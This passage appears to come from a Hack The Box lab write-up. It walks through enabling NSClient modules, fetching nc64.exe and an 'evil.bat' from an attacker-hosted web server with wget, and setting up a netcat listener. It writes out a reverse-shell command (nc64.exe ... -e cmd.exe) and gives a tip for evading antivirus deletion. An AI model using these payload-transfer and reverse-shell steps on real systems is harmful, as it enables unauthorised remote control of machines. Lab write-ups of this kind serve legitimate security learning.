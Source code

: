 ### 2. Login and enable following modules including enable at startup and save configuration 
- CheckExternalScripts
- Scheduler

**[COMPLETED]** again. we can see that this is enabled by using findstr on the remote server and look for strings "CheckExternalScripts" o "Scheduler"

### 3. Download nc.exe and evil.bat to c:\\temp from attacking machine
	@echo off
	c:\\temp\\nc64.exe 192.168.0.163 443 -e cmd.exe

**[COMPLETED]** easiest way I saw to do this was to set up a python web server and transfer the files through wget on the target machine:

attacker machine (your machine):

``` bash
python3 -m http.server 8080
```

target machine:

``` powershell
powershell
wget http://10.10.14.4:8080/nc64.exe -o nc64.exe
wget http://10.10.14.4:8080/evil.bat -o evil.bat
```

you can get nc64.exe here: https://github.com/int0x33/nc.exe/blob/master/nc64.exe

**NOTE: make sure you use nc64.exe, nc.exe will get flagged by the OS as malicious and automatically deleted**

### 4. Setup listener on attacking machine

**[COMPLETED]**

``` bash
nc -nlvp 8080 -s [INSERT_LOCAL_VPN_IP_HERE]
```

to break down this input:

**nc**: stands for netcat, a networking tool that allows for us to open up ports and make connections (among other things)
**-lnvp** is just the four following flags combined into one for convenience:
	**-l**: means it is using a listening port
	**-n**: numeric IP only (I haven't given my workstation a hostname so I'm only using IP)
	**-v**: verbose output, helpful for troubleshooting
	**-p**: indicates that we will be specifying the port number. I did 8080, but you can chose any valid port number not currently in use
**8080**: the port number we are using
**-s**: local source address, insert your IP that HTB assigned your machine via VPN. You can either find it through the command line with commands like **ifconfig**, **ip address**, or you can just find it in your machine connection:

